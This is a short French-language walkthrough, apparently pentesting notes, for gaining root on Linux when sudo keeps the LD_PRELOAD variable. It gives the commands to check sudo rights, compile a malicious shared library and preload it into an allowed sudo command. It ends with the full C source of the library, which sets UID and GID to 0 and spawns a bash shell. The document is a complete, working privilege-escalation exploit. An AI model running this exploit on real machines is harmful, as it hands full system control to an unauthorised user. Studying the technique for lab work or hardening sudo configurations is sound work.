 1. **Vérifier les droits sudo :**

- Commande : `sudo -l`
- Lorsque `env_keep+=LD_PRELOAD` est présent dans la configuration de sudo, cela signifie que la variable d'environnement `LD_PRELOAD` est conservée lors de l'exécution des commandes avec `sudo`.

2. **Créer le fichier source C (root.c) :**

- Commande : `nano -w /tmp/root.c`
- Le code C crée une bibliothèque partagée qui, lorsqu'elle est chargée, exécute son code d'initialisation (`_init()`). Ce code modifie l'ID utilisateur (UID) et l'ID de groupe (GID) du processus en 0 (c'est-à-dire `root`), puis lance un shell Bash.

3. **Compiler le fichier source en bibliothèque partagée :**

- Commande : `gcc -fPIC -shared -o /tmp/root.so /tmp/root.c -nostartfiles`
- Cette commande compile le fichier `root.c` en une bibliothèque partagée `root.so`. L'option `-fPIC` crée du code position indépendant, nécessaire pour les bibliothèques partagées, et `-nostartfiles` empêche gcc d'utiliser les fichiers de démarrage standard, ce qui n'est pas nécessaire pour ce type de charge utile.

4. **Exécuter une commande avec `sudo` en utilisant `LD_PRELOAD` :**

- Commande : `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/executable restart`
- Ici, `LD_PRELOAD` est utilisé pour précharger `root.so`. Lorsque la commande `/usr/sbin/executable` (qui doit être une commande autorisée par `sudo`) est exécutée, elle charge `root.so` avant toute autre bibliothèque. Cela entraîne l'exécution du code dans `_init()`, élevant ainsi les privilèges du processus à ceux de `root`.


Contenu de root.c:

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
